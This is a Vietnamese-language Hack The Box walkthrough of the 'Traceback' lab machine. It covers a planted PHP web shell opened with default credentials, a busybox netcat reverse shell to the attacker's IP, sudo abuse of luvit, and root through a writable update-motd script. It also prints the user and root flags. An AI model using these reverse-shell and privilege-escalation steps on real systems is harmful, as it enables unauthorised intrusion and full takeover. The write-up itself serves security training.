





> [!NOTE]
> - Mức độ: Dễ 
> - OS: Linux 
> - Url: https://app.hackthebox.com/machines/TraceBack
> - Mô tả: Traceback là một máy ở mức độ khó dễ, chạy máy chủ web Apache. Một web shell bằng PHP do tin tặc tải lên hiện đang tồn tại và có thể được sử dụng để thực thi lệnh dưới quyền người dùng `webadmin`. Người dùng này có đặc quyền chạy một công cụ tên là `luvit`, cho phép thực thi mã Lua dưới quyền người dùng `sysadmin`. Cuối cùng, người dùng `sysadmin` có quyền ghi vào tệp `update-motd`. Tệp này sẽ được thực thi với quyền root mỗi khi có người kết nối vào máy thông qua SSH. Cơ chế này được tận dụng để leo thang đặc quyền lên quyền root.

# Recon

## Port Recon

> Phát hiện 2 dịch vụ là ssh, http

```
└─$ nmap -sSVC 10.129.57.142        
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-20 01:28 -0400
Nmap scan report for 10.129.57.142
Host is up (0.065s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Help us
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 86.04 seconds
```

## Web 

> - Truy cập web có thông tin là web đã được cài 1 backdoor 
> - Và trong mã nguồn có commment chứa 1 đoạn thông tin 






> - Tìm kiếm comment trên internet `Some of the best web shells that you might need!` sẽ có kết quả là 1 reposity chứa rất nhiều webshell 
> - Vì web server là Apache nên dự đoán web shell có ngôn ngữ PHP 
> - Tạo danh sách tên webshell php trong repo và quét phát hiện webshell `smevk.php`

```
└─$ feroxbuster -u http://10.129.57.142/ -w shell.txt -t 100 -d 2 -C 404,500  
                                                                                                                                                            
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.129.57.142/
 🚩  In-Scope Url          │ 10.129.57.142
 🚀  Threads               │ 100
 📖  Wordlist              │ shell.txt
 💢  Status Code Filters   │ [404, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 2
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET       11l       32w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       44l      151w     1113c http://10.129.57.142/
200      GET     1317l     8162w   988735c http://10.129.57.142/bg.jpg
200      GET       59l      100w     1261c http://10.129.57.142/smevk.php
[####################] - 3s        22/22      0s      found:1       errors:0      
[####################] - 3s        19/19      7/s     http://10.129.57.142/    
```

> - Web shell này yêu cầu thông tin xác thực nhưng nó vẫn dùng thông tin xác thwucj mặc định `admin:admin` có trong repo 
> - Web shell cho phép chùng ta thwucj thi các lệnh 



# Exploit

> - Thực thi lệnh tạo reverse shell qua webshell
> - Và mở cổng lắng nghe kết nối 

```
busybox nc 10.10.15.211 4445 -e /bin/bash
```

```
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.15.211] from (UNKNOWN) [10.129.57.142] 51532
bash: cannot set terminal process group (709): Inappropriate ioctl for device
bash: no job control in this shell
webadmin@traceback:/var/www/html$ id
id
uid=1000(webadmin) gid=1000(webadmin) groups=1000(webadmin),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
webadmin@traceback:/var/www/html$ whoami
whoami
webadmin
```

# Privelege Escalation

# Leo thang lên sysadmin

> - Liệ kê các lệnh webadmin có thể chạy với sudo 
> - webadmin có thể chạy `/home/sysadmin/luvit` với quyền systemadmin mà không cần mật khẩu 

```
webadmin@traceback:/home$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

> - Chạy thử `/home/sysadmin/luvit` thì chương trình nhận lệnh purl làm đầu vào và thực thi lệnh đó 

```
webadmin@traceback:/home$ sudo -u sysadmin /home/sysadmin/luvit
Welcome to the Luvit repl!
> print("Hi")
Hi
```

> - Có thể tạo shell với quyền sysadmin 

```
> os.execute("/bin/bash")
sysadmin@traceback:/home$ whoami
sysadmin
sysadmin@traceback:/home$ id
uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin)
```

> User flag

```
462b871ca24980719d726a8c5babbfc5
```

## Leo thang lên root 

> - Kiểm tra các timer trên hệ thống phát hiện 1 timer tên `motd-news.timer` chạy service `motd-news.service`



> - Xem trạng thái timer thì nó đang được chạy 
> - Nội dung timer, service nó thực thi lệnh `/etc/update-motd.d/50-motd-news` và systadmin có quyền ghi vào file này  

```
sysadmin@traceback:~/.cache$ cat /lib/systemd/system/motd-news.timer
[Unit]
Description=Message of the Day
~
[Timer]
OnCalendar=00,12:00:00
RandomizedDelaySec=12h
Persistent=true
OnStartupSec=1minss RETURN)

[Install]
WantedBy=timers.target
sysadmin@traceback:~/.cache$ cat /lib/systemd/system/motd-news.service
[Unit]
Description=Message of the Day
After=network-online.target
Documentation=man:update-motd(8)

[Service]
Type=oneshot
ExecStart=/etc/update-motd.d/50-motd-news --force
```

> - Nếu kết nối đến hệ thống qua ssh bằng cặp khóa 
> - Sẽ có 1 biểu ngữ được in ra `Welcome to Xh4H land `

```
└─$ ssh -i sysadmin sysadmin@10.129.57.142
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 


Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Mon Oct 19 23:57:54 2026 from 10.10.15.211
$ 
```

> - Dùng pspy xem các tiến trình được chạy thì phát hiện 1 tác vụ lập lịch sẵn cứ 30s sẽ sao chép nội dung từ thư mục backup vào thư mục `/etc/.update-motd.d/`
> - `/bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/`



> - Liệt kê thư mục `/etc/update-motd.d` có chứa file được thực thi khi người dùng đăng nhập qua SSH để in tiêu đề chào mừng 
> - Tất cả các file sysadmin đều có quyền chỉnh sửa 
> - Giờ có thể chèn lệnh reverse shell vào các file `00-header` để khi đăng nhập qua ssh nó được thực thi 
> - Hoặc thêm vào 50-motd-news file được service thực thi 
> - Tuy nhiên cần đảm bảo thực hiện trước khi nội dung file được backup 

```
sysadmin@traceback:~/.ssh$ cd /etc/update-motd.d
sysadmin@traceback:/etc/update-motd.d$ ls -al
total 32
drwxr-xr-x  2 root sysadmin 4096 Apr 22  2021 .
drwxr-xr-x 80 root root     4096 Apr 22  2021 ..
-rwxrwxr-x  1 root sysadmin  981 Oct 20 03:25 00-header
-rwxrwxr-x  1 root sysadmin  982 Oct 20 03:25 10-help-text
-rwxrwxr-x  1 root sysadmin 4264 Oct 20 03:25 50-motd-news
-rwxrwxr-x  1 root sysadmin  604 Oct 20 03:25 80-esm
-rwxrwxr-x  1 root sysadmin  299 Oct 20 03:25 91-release-upgrade
sysadmin@traceback:/etc/update-motd.d$ cat 00-header 
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release


echo "\nWelcome to Xh4H land \n"
```

> Leo thang qua chèn lệnh file in tiêu đề SSH cần đảm bảo thực thi nhanh trước khi file được backups 

```
busybox nc 10.10.15.211 4445 -e /bin/bash
```

```
└─$ ssh -i sysadmin sysadmin@10.129.57.142
└─$ nc -lnvp 4445
listening on [any] 4445 ...
connect to [10.10.15.211] from (UNKNOWN) [10.129.57.142] 60252
bash: cannot set terminal process group (33245): Inappropriate ioctl for device
bash: no job control in this shell
root@traceback:/# whoami
whoami
root
root@traceback:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```

> Root Flag 

```
2daec074521cebf59531239bea7d4fd6
```

# Kết luận 

> [!NOTE]
> - Máy mục tiêu tồn tại 1 backdoor chứa thông tin xác thực mặc định cần xóa hoặc thay đổi thông tin xác thực 
> - người dùng webadmin có thể thực thi lệnh Perl với quyền sysadmin không cần thiết cần tối thiểu hóa quyền 
> - sysadmin có thể ghi vào các file trong `/etc/update-motd.d` không cần thiết mặc dù các file được backup định kì 
